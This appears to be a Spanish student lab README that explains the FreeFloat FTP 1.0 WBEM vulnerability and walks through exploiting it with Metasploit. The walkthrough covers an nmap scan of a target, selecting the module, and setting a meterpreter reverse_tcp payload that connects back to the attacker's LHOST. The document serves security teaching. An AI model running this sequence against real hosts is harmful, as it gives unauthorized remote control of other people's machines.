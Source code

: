 # CiberPractica
Practica Ciberseguridad 2019

---------------------------------------------------------
# Información del exploit FreeFloat FTP Wbem Freefloat v1.0

este exploit lo ha subido sinn3r y juan vazquez (ambos de @metasploit):

esta vulnerabilidad fue encontrada en el servicio de freefloat 1.0, la cual permite a un usuario malicioso
ingresar al sistema que esté corriendo este servicio.
la forma en que el exploit se ejecuta es la siguiento:

  1. No se necesita credencial para iniciar sesión
  2. la ruta predeterminada del usuario está en C: \, y esto no se puede cambiar.
  3. el usuario puede escribir en cualquier parte del sistema de archivos del servidor. Como resultado de estas implementaciones deficientes,     un usuario malintencionado puede simplemente iniciar sesión y luego cargar archivos, y dejar que WMI ejecute la carga útil cargada

El exploit está cargado en la base de datos de metasploit framework, puede ser usado desde allí.
Finalmente, el exploit fue divulgado el 07/12/2012

# Instrucciones

1.Escanear el equipo victima para determinar en que puerto y que servicio está corriendo.<br>

  nmap -sC -sV -V 123.34.54.2 (ejemplo)<br>
  
2.Despues de identificar el puerto y servicio abrir metasploit (msfdb run ó msfconsole)<br>

3.Buscar el exploit:

  msf5 > search freefloat (ejemplo)<br>
  
4.Seleccionar el exploit:

  use exploit/windows/ftp/freefloat_ftp_wbem<br>
  
5.Ver la configuración del exploit, para ello usamos show options, show info y de ser necesario cambiar algun parametro
avanzado puede revisar la configuración avanzada con show advanced.

6.Cambiar los valores de RHOSTS y RPORT por el de la maquina victima y el puerto en donde corre el servicio, en este caso el 21
por defecto, los servicios de ftp usan este puerto, ademas para asegurarnos nos dimos cuenta que con nmap vimos que ese puerto corria
el servicio de ftp con freefloat 1.0v:

  set RHOST 123.34.54.2<br>
  set RPORT 21<br>
  
7.Seleccionamos el payload, en este caso se trata de un OS windows:

  set payload windows/meterpreter/reverse_tcp<br>
  
8.Cambiamos las opciones del payload, el LHOST y el LPORT, LHOST es nuestra maquina, a la cual se conectará la maquina victima,y LPORT es el puerto al que se conectará en nuestra maquina:

  set LPORT 4444<br>
  set LHOST 123.45.67.8<br>
  
9.AHORA SI, CORREMOS EL EXPLOIT :D   :

  msf5> run ó msf5> exploit (el clasico)<br>
 
 # FELIZ HACKING B)
 ![UPS NO CARGÓ LA IMAGEN :v ](https://opinionstage-res.cloudinary.com/image/upload/c_lfill,dpr_1.0,f_auto,fl_lossy,q_auto:good,w_700/v1/polls/sxso0xaofrrfzgaq3kqb)
 
# WebGrafía:

  https://www.rapid7.com/db/modules/exploit/windows/ftp/freefloatftp_wbem
  
Herramientas usadas para la demo:

  nmap y NSE: https://nmap.org/<br>
  metasploitframework: https://www.metasploit.com/

